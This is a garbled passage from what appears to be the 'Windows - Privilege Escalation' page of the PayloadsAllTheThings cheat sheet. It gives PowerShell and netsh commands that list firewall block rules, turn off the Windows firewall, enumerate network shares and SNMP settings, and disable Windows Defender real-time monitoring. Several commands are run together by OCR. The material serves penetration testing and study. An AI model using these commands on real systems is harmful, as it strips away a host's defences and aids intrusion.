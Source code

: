$f=New-object  -comObject HNetCfg.FwPolicy2;$f.rules  |  where {$_.action  -eq  "0"} | select name,applicationname,localports

Disable firewall
netsh firewall set opmode disable
netsh advfirewall set allprofiles state off
List all network shares
net share
SNMP Configuration

reg query HKLM\SYSTEM\CurrentControlSet\Services\SNMP /sGet-ChildItem  -path HKLM:\SYSTEM\CurrentControlSet\Services\SNMP -Recurse

## [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='40'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='1210' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#antivirus--detections)Antivirus & Detections

### [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='41'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='1212' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#windows-defender)Windows Defender

# check status of DefenderPS C:\>  Get-MpComputerStatus# disable Real Time MonitoringPS C:\>  Set-MpPreference  -DisableRealtimeMonitoring $true; Get-MpComputerStatus
